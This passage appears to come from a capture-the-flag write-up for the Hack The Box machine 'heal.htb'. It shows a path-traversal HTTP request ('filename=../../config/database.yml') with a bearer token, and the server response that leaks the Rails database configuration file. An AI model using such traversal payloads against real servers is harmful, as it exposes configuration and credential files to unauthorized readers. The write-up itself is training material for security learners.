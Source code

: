 Now since we confirmed the `directory` we searched for the `database` configuration file.

```c
GET /download?filename=../../config/database.yml  HTTP/1.1
Host: api.heal.htb
Accept: */*
Access-Control-Request-Method: GET
Access-Control-Request-Headers: authorization
Origin: http://heal.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Sec-Fetch-Mode: cors
Referer: http://heal.htb/
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Connection: keep-alive
Authorization: Bearer eyJhbGciOiJIUzI1NiJ9.eyJ1c2VyX2lkIjoyfQ.73dLFyR_K1A7yY9uDP6xu7H1p_c7DlFQEoN1g-LFFMQ


```

```c
HTTP/1.1 200 OK
Server: nginx/1.18.0 (Ubuntu)
Date: Sat, 14 Dec 2024 20:25:27 GMT
Content-Type: application/x-yaml
Content-Length: 636
Connection: keep-alive
access-control-allow-origin: http://heal.htb
access-control-allow-methods: GET, POST, PUT, PATCH, DELETE, OPTIONS, HEAD
access-control-expose-headers: 
access-control-max-age: 7200
x-frame-options: SAMEORIGIN
x-xss-protection: 0
x-content-type-options: nosniff
x-permitted-cross-domain-policies: none
referrer-policy: strict-origin-when-cross-origin
content-disposition: attachment; filename="database.yml"; filename*=UTF-8''database.yml
content-transfer-encoding: binary
cache-control: no-cache
x-request-id: 16f5af33-43ba-4aa3-91b3-6dd442daebbc
x-runtime: 0.003290
vary: Origin

# SQLite. Versions 3.8.0 and up are supported.
#   gem install sqlite3
#
#   Ensure the SQLite 3 gem is defined in your Gemfile
#   gem "sqlite3"
#
default: &default
  adapter: sqlite3
  pool: <%= ENV.fetch("RAILS_MAX_THREADS") { 5 } %>
  timeout: 5000

development:
  <<: *default
  database: storage/development.sqlite3

# Warning: The database defined as "test" will be erased and
# re-generated from your development database when you run "rake".
# Do not set this db to the same as development or production.
test:
  <<: *default
```